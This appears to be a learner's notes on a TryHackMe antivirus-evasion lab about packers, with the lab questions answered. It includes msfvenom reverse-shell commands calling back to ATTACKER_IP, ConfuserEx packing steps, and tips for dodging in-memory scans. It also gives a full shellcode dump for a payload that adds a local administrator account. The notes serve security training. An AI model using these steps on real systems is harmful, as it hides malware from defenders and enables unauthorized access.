

# Task 9 Packers

Task 9 Packers

Another method to defeat disk-based AV detection is to use a packer. **Packers** are pieces of software that take a program as input and transform it so that its structure looks different, but their functionality remains exactly the same. Packers do this with two main goals in mind:

- Compress the program so that it takes up less space.
- Protect the program from reverse engineering in general.

Packers are commonly used by software developers who would like to protect their software from being reverse engineered or cracked. They achieve some level of protection by implementing a mixture of transforms that include compressing, encrypting, adding debugging protections and many others. As you may have already guessed, packers are also commonly used to obfuscate malware without much effort.

There's quite a large number of packers out there, including UPX, MPRESS, Themida, and many others.

# Packing an application

While every packer operates differently, let's look at a basic example of what a simple packer would do.

When an application is packed, it will be transformed in some way using a **packing** function. The packing function needs to be able to obfuscate and transform the original code of the application in a way that can be reasonably reversed by an **unpacking** function so that the original functionality of the application is preserved. While sometimes the packer may add some code (to make debugging the application harder, for example), it will generally want to be able to get back the original code you wrote when executing it.



The packed version of the application will contain your packed application code. Since this new packed code is obfuscated, the application needs to be able to unpack the original code from it. To this end, the packer will embed a code stub that contains an unpacker and redirect the main entry point of the executable to it.

When your packed application gets executed, the following will happen:


1. The unpacker gets executed first, as it is the executable's entry point.
2. The unpacker reads the packed application's code.
3. The unpacker will write the original unpacked code somewhere in memory and direct the execution flow of the application to it.

# Packers and AVs

By now, we can see how packers help bypass AV solutions. Let's say you built a reverse shell executable, but the AV is catching it as malicious because it matches a known signature. In this case, using a packer will transform the reverse shell executable so that it doesn't match any known signatures while on disk. As a result, you should be able to distribute your payload to any machine's disk without much problem.

AV solutions, however, could still catch your packed application for a couple of reasons:

- While your original code might be transformed into something unrecognizable, remember that the packed executable contains a stub with the unpacker's code. If the unpacker has a known signature, AV solutions might still flag any packed executable based on the unpacker stub alone.
- At some point, your application will unpack the original code into memory so that it can be executed. If the AV solution you are trying to bypass can do in-memory scans, you might still be detected after your code is unpacked.

# Packing our shellcode

Let's start from a basic C# shellcode. You can also find this code in your Windows machine at **`C:\Tools\CS Files\UnEncStagelessPayload.cs`**:

[*Full Payload Code (Click to read)*](Task%209%20Packers%2064e073a4ec524de1b4750bc0fcf281b1/UnEncStagelessPayload%20cs%2055610f64dfcf40a5ae1dea6a4cee0557.md)

This payload takes a shellcode generated by msfvenom and runs it into a separate thread. For this to work, you'll need to generate a new shellcode and put it into the **`shellcode`** variable of the code:

Command Prompt

```
C:\> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

You can then compile your payload in the Windows machine using the following command:

Command Prompt

```
C:\> csc UnEncStagelessPayload.cs
```

```bash
csc UnEncStagelessPayload.cs
```

> you need to copy the shell code generated into the cs file before runing the csc command
> 

Once you have a working executable, you can try uploading it to the THM Antivirus Check! page (link on the desktop). It should be flagged by the AV immediately. Let's use a packer on the same payload and see what happens.

We will use the [ConfuserEx](https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0) packer for this task, as our payloads are programmed on **`.NET`**. For your convenience, you can find a shortcut on your desktop to it.

ConfuserEx will require you to indicate the folders in which it will work. Be sure to select your desktop as the base directory, as shown in the image below. Once the base directory is set up, drag and drop the executable you want to pack on the interface, and you should end up with the following:


Let's go to the settings tab and select our payload. Once selected, hit the "+" button to add settings to your payload. This should create a rule named "true". Make sure to enable compression as well:


We will now edit the "true" rule and set it to the Maximum preset:


Finally, we will go to the "Protect!" tab and hit "Protect":


The new payload should be ready and hopefully won't trigger any alarms when uploaded to the THM Antivirus Checker! (shortcut available on your desktop). In fact, if you execute your payload and set up an **`nc`** listener, you should be able to get a shell back:

AttackBox

```
user@attackbox$ nc -lvp 7478
```

So far, so good, but remember we talked about AVs doing in-memory scanning? If you try running a command on your reverse shell, the AV will notice your shell and kill it. This is because Windows Defender will hook certain Windows API calls and do in-memory scanning whenever such API calls are used. In the case of any shell generated with msfvenom, CreateProcess() will be invoked and detected.

# So what do we do now?

While defeating in-memory scanning is out of the scope of this room, there are a couple of simple things you can do to avoid detection:

- **Just wait a bit**. Try spawning the reverse shell again and wait for around 5 minutes before sending any command. You'll see the AV won't complain anymore. The reason for this is that scanning memory is an expensive operation. Therefore, the AV will do it for a while after your process starts but will eventually stop.
- **Use smaller payloads**. The smaller the payload, the less likely it is to be detected. If you use msfvenom to get a single command executed instead of a reverse shell, the AV will have a harder time detecting it. You can try with **`msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp`** and see what happens.
- 

```bash
msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp
```

```bash
0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,
0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,
0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,
0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,
0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x6e,0x65,0x74,
0x20,0x75,0x73,0x65,0x72,0x20,0x70,0x77,0x6e,0x64,0x20,0x50,
0x61,0x73,0x73,0x77,0x6f,0x72,0x64,0x33,0x32,0x31,0x20,0x2f,
0x61,0x64,0x64,0x3b,0x6e,0x65,0x74,0x20,0x6c,0x6f,0x63,0x61,
0x6c,0x67,0x72,0x6f,0x75,0x70,0x20,0x61,0x64,0x6d,0x69,0x6e,
0x69,0x73,0x74,0x72,0x61,0x74,0x6f,0x72,0x73,0x20,0x70,0x77,
0x6e,0x64,0x20,0x2f,0x61,0x64,0x64,0x00

```

```bash
root@ip-10-10-141-173:~# msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 338 bytes
Final size of csharp file: 1748 bytes
byte[] buf = new byte[338] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,
0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,
0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,
0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,
0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x6e,0x65,0x74,
0x20,0x75,0x73,0x65,0x72,0x20,0x70,0x77,0x6e,0x64,0x20,0x50,
0x61,0x73,0x73,0x77,0x6f,0x72,0x64,0x33,0x32,0x31,0x20,0x2f,
0x61,0x64,0x64,0x3b,0x6e,0x65,0x74,0x20,0x6c,0x6f,0x63,0x61,
0x6c,0x67,0x72,0x6f,0x75,0x70,0x20,0x61,0x64,0x6d,0x69,0x6e,
0x69,0x73,0x74,0x72,0x61,0x74,0x6f,0x72,0x73,0x20,0x70,0x77,
0x6e,0x64,0x20,0x2f,0x61,0x64,0x64,0x00};

```

If detection isn't an issue, you can even use a simple trick. From your reverse shell, run **`cmd.exe`** again. The AV will detect your payload and kill the associated process, but not the new cmd.exe you just spawned.

While every single AV will behave differently, most of the time, there will be a similar way around them, so it's worth exploring any weird behaviors you notice while testing.

Answer the questions below:

Will packers help you obfuscate your malicious code to bypass AV solutions? (yea/nay)

yea

Will packers often unpack the original code in-memory before running it? (yea/nay)

yea

Are some packers detected as malicious by some AV solutions? (yea/nay)

yea

Follow the instructions to create a packed payload and upload it into the THM Antivirus Check at **`http://10.10.71.19/`**

Complete/NAN

[UnEncStagelessPayload.cs](Task%209%20Packers%2064e073a4ec524de1b4750bc0fcf281b1/UnEncStagelessPayload%20cs%2055610f64dfcf40a5ae1dea6a4cee0557.md)
